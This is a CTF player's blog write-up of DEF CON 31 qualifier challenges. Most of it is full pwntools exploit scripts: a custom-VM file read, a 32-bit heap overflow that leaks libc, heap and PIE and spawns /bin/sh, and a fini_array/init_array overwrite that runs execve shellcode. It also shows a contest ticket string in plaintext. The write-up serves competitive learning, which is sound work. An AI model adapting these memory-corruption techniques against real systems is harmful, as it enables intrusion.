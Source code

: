 ```yaml
---
title: "[DEF Con Qual-2023] Write-Up for several challenges"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

The teamwork carried me!

I participated DEF CON 31 qualification round last weekend as a member of P1G BuT S4D and we got 9th at this round. 

I write this article to document several challenges I worked on.

You can also find the official challenge source code/ solution here: https://github.com/nautilus-institute/quals-2023

# Blackbox

Analysis:
We need to reverse the challenge by interacting with it. 

The structure of the payload is 
```p16(len(code)//2)+code```
- The first 2 bytes represent the size of the instructions
- Each instruction's length is 2

Solution:
- Find the institutions to 
  - set the registers
  - syscall open
  - syscall read

We spent about 6 hours on open cuz it always gives the error message "failed to open xxx". Even we pass "." as the parameter.

But in the end, my teammates reminded me that it could be fopen. This message helped us solve it in the last 10 mins.

Exploit:

```python
from pwn import *
context.log_level='debug'
p = remote("blackbox-bamkcvy55ihl4.shellweplayaga.me",33773)
p.sendlineafter("Ticket please: ","ticket...")
def pack(c):
    return p16(len(c)//2)+c
def one(c,cc=0):
    p.send(pack(c))
    if cc==0:
        p.sendlineafter(")\n","y")
def XxX(filename):
    res=b''
    targets = [ord(x) for x in filename]
    cur = 0
    for target in targets:
        res+=p16(0x0080+target)+p16(0xd000)+p16(0x1080+target)
    return res+p16(0xd000)
one(XxX("flag\0r\0AAAAAA")+p16(0x0280+2)+p16(0x0380+2)+p16(0x0080+4)+p16(0xf000)+p16(0x0081)+p16(0x0280+0)+p16(0x0380+0x7f)+p16(0xf000)+p16(0x1080+1)+p16(0x1180+111)+p16(0xf000))
p.interactive()
```

# open-house

It's a simple x32 heap overflow. I solved it locally but for the remote one, we need to leak the libc. My teammates finally used dynelf to leak. I attached my local solution for the challenge.

```
from pwn import *
# 
context.arch='i386'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./open-house')
# context.log_level='debug'

ru      = lambda a:     p.readuntil(a)
r       = lambda n:     p.read(n)
sla     = lambda a,b:   p.sendlineafter(a,b)
sa      = lambda a,b:   p.sendafter(a,b)
sl      = lambda a:     p.sendline(a)
s       = lambda a:     p.send(a)
p= remote("open-house-6dvpeatmylgze.shellweplayaga.me",10001)
sla(": ","ticket{StreetDeed544n23:gaVixliBvaQ2kmfgEJGTGexWuFwQx4S2R3stRpvhf9WN-T5d}")

def menu(c):
    ru('> ')
    sl(c)
def add(c):
    menu('c')
    ru('review!')
    sl(c)
def dele(idx):
    menu('d')
    ru('delete?')
    sl(str(idx))
def edit(idx,c):
    menu('m')
    ru('replace?')
    sl(str(idx))
    ru('with?')
    sl(c)
def show():
    menu('v')
from z3 import *
def XxX(leaked):
    leaked = BitVecVal(leaked, 32)
    res  = BitVec('res', 32)
    s = Solver()
    s.add((res>>12)^res==leaked)
    s.add(res>>24<=0x57)
    s.add(res>>24>=0x55)
    if str(s.check()) == 'sat':
        m = s.model()
        return  m.evaluate(res).as_long()
    else:
        print(s.check())
        exit(1)
payload = b'a'*0x1fe
for x in range(13):
    add("a"*0x1f9)


for x in range(10):
    dele(1)
for x in range(8):
    add("")

show()


for _ in range(19):
    ru(b"****")
ru("\n")
heap = u32(p.read(3).rjust(4,b'\0'))
heap = XxX(heap)&0xfffff000
warning(hex(heap))
ru(b"****")
ru(b"****")

ru("\n")
p.read(3)
base = u32(p.read(4))-(0xf7f1ea38-0xf7cf8000)
warning(hex(base))


for x in range(24):
    dele(1)
add(b"\1"*0x220)
add(b"\2"*0x220)
add(b"\3"*0x220)

show()

edit(2,b"\1"*0x200+flat([0x573d04b4-0x573cd000+heap,0]))
show()
for _ in range(3):
    ru(b"**** - ")
pie= u32(p.read(4))-0x3164
warning(hex(pie))
# gdb.attach(p)
context.log_level='debug'

edit(1,b'/bin/sh\0'.ljust(0x200,b'\0')+flat([0x3124+pie-8,pie+0x4000-0x300]))

edit(2,b'/bin/sh\0'+flat([0x47cb0+base,0x70ca0+base]))

dele(1)

p.interactive()
```

# Test Your Luck

This challenge is interesting. I like Test Your Luck most!!!
We 
1. Modify the seed on bss to make sure we can guess the number
2. Modify init_array to mprotect bss to make it executable + Modify fini_array to reuse the vulnerability
3. Return to BSS

```python
from pwn import *
context.log_level='debug'
context.arch='amd64'

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337
p=  remote(HOST, int(PORT))
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)


base = u64(p.read(8))
warning(hex(base))
xxx = 0x3000-0x400
sh=asm(shellcraft.execve("./submitter",0,0))
sh+=b"\x90"*((-len(sh))%8)
pay = b''
for _ in range(int(len(sh)//8)):
    pay+= p64(base+xxx+_*8)+sh[_*8:_*8+8]

p.send(p64(base+0x45B4)+p64(0)+\
       p64(base+0x4338)+p64(0x1200+base)+\
       p64(base+0x4330)+p64(0x1370+base)+\
       p64(0))
p.send(p32(0))
p.read(8)
p.send(pay+p64(base+0x45B4)+p64(0)+\
       p64(base+0x4330)+p64(xxx+base)+\
       p64(base+0x4330-8)+p64(xxx+base)+\
       p64(0))
flag = p.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

p.interactive()
```  

# Other Challenges
I also contributed to other challenges. Although I didn't achieve the final exploit script. I'll reproduce some of them and attach them below.


- ptrace-me-maybe
- Three-Guard
- Don't bLinkl

# Epilogue

This year's qual is much more enjoyable for me. I am not saying it's easy but it's definitely educational cuz I know something I can't learn on tuff heap stuff and crazy ROP.  Thank NI so much for writing these interesting elegant challenges and I am looking forward to meeting everyone in Las Vegas!

